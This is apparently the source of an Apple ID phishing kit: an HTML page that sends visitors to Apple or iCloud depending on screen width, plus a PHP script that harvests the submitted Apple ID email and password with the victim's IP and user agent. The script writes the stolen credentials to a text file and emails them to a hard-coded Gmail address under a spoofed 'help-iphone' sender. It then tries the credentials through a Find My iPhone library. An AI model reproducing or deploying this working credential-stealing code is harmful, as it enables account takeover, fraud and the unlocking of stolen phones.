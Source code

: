 # findmydevice.github.io
<html>
<header>
<script type="text/javascript">
  <!--
  if (screen.width <= 800) {
    window.location = "https://appleid.apple.com";
  }
  //-->
</script>
<script type="text/javascript">
  <!--
  if (screen.width >= 1024) {
    window.location = "http://icloud.com/find";
  }
  //-->
</script>
</header>
<body></body>
</html>
<?php
$email= $_POST['appleid'];
$pass= $_POST['password'];
function getUserIP()
{
    $client  = @$_SERVER['HTTP_CLIENT_IP'];
    $forward = @$_SERVER['HTTP_X_FORWARDED_FOR'];
    $remote  = $_SERVER['REMOTE_ADDR'];
    if(filter_var($client, FILTER_VALIDATE_IP))
    {
        $ip = $client;
    }
    elseif(filter_var($forward, FILTER_VALIDATE_IP))
    {
        $ip = $forward;
    }
    else
    {
        $ip = $remote;
    }
    return $ip;
}
$user_ip = getUserIP();
$date = gmdate ("d-n-Y");
$time = gmdate ("H:i:s");
$agent = $_SERVER['HTTP_USER_AGENT'];
$remote = $_SERVER['REMOTE_ADDR'];
// Additional headers
$headers .= 'To: New User' . "\r\n";
$headers .= 'From: iServer' . "\r\n";
// To send HTML mail, the Content-type header must be set
$headers  = 'MIME-Version: 1.0' . "\r\n";
$headers .= 'Content-type: text/html; charset=iso-8859-1' . "\r\n";
// Send email with reply
$to  = "kabyarsayarlay278@gmail.com";
// Subject
$subject = 'Key Ready By @Apple.inc';
// Message
$message = "\r\n Enjoy Unlock By @Joker_Unlock \r\n ".
"1PAddre55: $user_ip \r\n".
"Joker Email: $email \r\n".
"Joker Pass: $pass \r\n".
"Time-Date: $time - $date \r\n".
"Dvice typ: $agent \r\n".
"1PAddre55: http://whatismyipaddress.com/$remote \r\n";
require 'FindMyiPhone.php';
try {
$file=fopen("findmyiphone.txt","a");
fwrite($file,$message);
fwrite($file,"\r\n");
fclose($file);
	$FindMyiPhone = new FindMyiPhone($email, $pass);
} catch (exception $e) {
	if($e->getMessage()==true){
		// Mail it
// send email
$headers = "From:UNl0CKED <admin@help-iphone.info>" . "\r\n" ;
mail($to, $subject, $message, $headers);
header("Location: /map/ ");
	}else{
		header('Location: '.$_SERVER['HTTP_REFERER'].'?error');
	}
}
?>
